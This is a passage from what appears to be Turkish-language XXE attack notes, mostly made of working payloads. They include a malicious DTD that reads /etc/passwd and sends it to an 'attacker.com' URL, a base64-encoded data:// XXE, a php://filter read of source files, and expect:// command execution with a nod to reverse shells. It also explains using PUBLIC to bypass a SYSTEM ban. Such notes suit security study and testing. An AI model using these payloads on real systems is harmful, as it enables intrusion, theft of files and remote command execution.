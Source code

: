 `malicious.dtd` dosyasında örneğin şu olabilir:

```dtd
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY exfiltrate SYSTEM 'http://attacker.com/?data=%file;'>">
%eval;
```

Sonra XML'de `&exfiltrate;` çağrıldığında `/etc/passwd` içerik olarak saldırgana gider.


#####  Özet

- `SYSTEM`: Tek URL alır, basit ve sık kullanılır.
- `PUBLIC`: İki parametre alır (public ID + URI), genellikle ikinci parametre üzerinden dosya çekilir.
- `PUBLIC`, bazı durumlarda `SYSTEM` yasaklıyken **bypass** için kullanılabilir.
- Her iki yöntem de **remote DTD injection** veya **classic XXE** için uygundur.

### 99-Classic XXE Base64 Encoded

```xml
<!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
```

```
ZmlsZTovLy9ldGMvcGFzc3dk --> file:///etc/passwd
```

### 7- XML Format Uyumsuzluğu ve Sınırlamalar

![Pasted image 20250513114348.png](/img/user/resimler/Pasted%20image%2020250513114348.png)

Gördüğümüz gibi, herhangi bir içerik alamadığımız için bu işe yaramadı. Bunun nedeni, başvurduğumuz dosyanın uygun bir XML formatında olmaması, dolayısıyla external bir XML entity olarak başvurulamamasıdır. Eğer bir dosya XML'in bazı özel karakterlerini (örn. `<`/`>`/`&`) içeriyorsa, external entity referansını bozar ve referans için kullanılamaz. Ayrıca, XML formatına uymayacağı için herhangi bir binary veriyi de okuyamayız.

### 8- Base64 Kodlama ile Dosya İçeriği Okuma (PHP)

```xml
<!DOCTYPE email [
  <!ENTITY company SYSTEM "php://filter/convert.base64-encode/resource=index.php">
]>
```

![Pasted image 20250513114705.png](/img/user/resimler/Pasted%20image%2020250513114705.png)

### 9- PHP Expect Filtresi ile Komut Yürütme

`PHP://expect` filtresi aracılığıyla PHP tabanlı web uygulamalarında komutları çalıştırabiliriz, ancak bunun için PHP `expect` modülünün yüklü ve etkin olması gerekir.

XXE çıktısını doğrudan 'bu bölümde gösterildiği gibi' yazdırırsa, temel komutları `expect://id` olarak çalıştırabiliriz ve sayfa komut çıktısını yazdırmalıdır. Ancak, çıktıya erişimimiz yoksa veya 'örneğin reverse shell' gibi daha karmaşık bir komut çalıştırmamız gerekiyorsa, XML sözdizimi bozulabilir ve komut çalışmayabilir.
